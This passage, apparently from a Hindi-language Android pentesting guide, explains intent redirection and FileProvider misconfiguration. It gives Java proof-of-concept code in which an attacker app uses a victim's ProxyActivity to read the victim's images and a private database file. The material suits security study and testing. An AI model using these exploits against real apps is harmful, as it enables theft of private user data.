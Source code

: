 ```java
| Intent.FLAG_GRANT_WRITE_URI_PERMISSION);
extra.setClassName(getPackageName(), "com.attacker.LeakActivity");
extra.setData(Uri.parse("content://com.victim.provider/"));

Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.ProxyActivity");
intent.putExtra("extra_intent", extra);
startActivity(intent);
```
`LeakActivity.java`
```java
Uri uri = Uri.parse(getIntent().getDataString() + "image/1")); // content://com.victim.provider/image/1
Bitmap bitmap = BitmapFactory.decodeStream(getContentResolver().openInputStream(uri)); // stolen image
```
## Android फ़ाइल प्रदाता पर हमले

यह सुरक्षा कमजोरी भी है जो हमलावर को यह संभव बनाती है कि वह **ऐप फ़ाइलें चुरा ले** जो डेवलपर द्वारा निर्धारित निर्देशिकाओं में स्थित होती हैं। सफल हमले के लिए, दुष्ट ऐप को Android फ़ाइल प्रदाता के एक्सेस अधिकार प्राप्त करने की आवश्यकता होती है और फिर Android ContentResolver का उपयोग करके फ़ाइल प्रदाता से सामग्री पढ़ने की आवश्यकता होती है।

उदाहरण फ़ाइल प्रदाता (अधिक विवरण के लिए देखें [https://developer.android.com/reference/android/support/v4/content/FileProvider](https://developer.android.com/reference/android/support/v4/content/FileProvider))
```markup
<provider android:name="androidx.core.content.FileProvider" android:exported="false" android:authorities="com.victim.files_provider" android:grantUriPermissions="true">
<meta-data android:name="android.support.FILE_PROVIDER_PATHS" android:resource="@xml/provider_paths"/>
</provider>
```
यह ऐप संसाधनों में पाए जाने वाली एक विशेष सूची में स्थित फ़ाइलों के लिए पढ़ने/लिखने का पहुंच प्रदान करता है, इस मामले में `res/xml/provider_paths.xml` पर पाया जा सकता है।

यह कुछ इस तरह दिख सकता है
```markup
<?xml version="1.0" encoding="utf-8"?>
<paths>
<root-path name="root" path=""/>
<files-path name="internal_files" path="."/>
<cache-path name="cache" path=""/>
<external-path name="external_files" path="images"/>
</paths>
```
प्रत्येक टैग एक रूट निर्देशिका को एक `path` मान के साथ निर्दिष्ट करता है जो रूट के संबंध में होता है। उदाहरण के लिए, मान `external_files` को `new File(Environment.getExternalStorageDirectory(), "images")` से संबंधित होगा।

मान `root-path` को `/` के समान होता है, अर्थात् यह विचारहरू फ़ाइलों तक पहुंच प्रदान करता है।

चलो मान लो कि हमारे पास फ़ाइल `/data/data/com.victim/databases/secret.db` में कुछ गुप्त डेटा संग्रहीत है: इस फ़ाइल की चोरी कुछ इस तरह दिख सकती है `MainActivity.java`
```java
Intent extra = new Intent();
extra.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
extra.setClassName(getPackageName(), "com.attacker.LeakActivity");
extra.setData(Uri.parse("content://com.victim.files_provider/root/data/data/com.victim/databases/secret.db"));

Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.ProxyActivity");
intent.putExtra("extra_intent", extra);
startActivity(intent);
```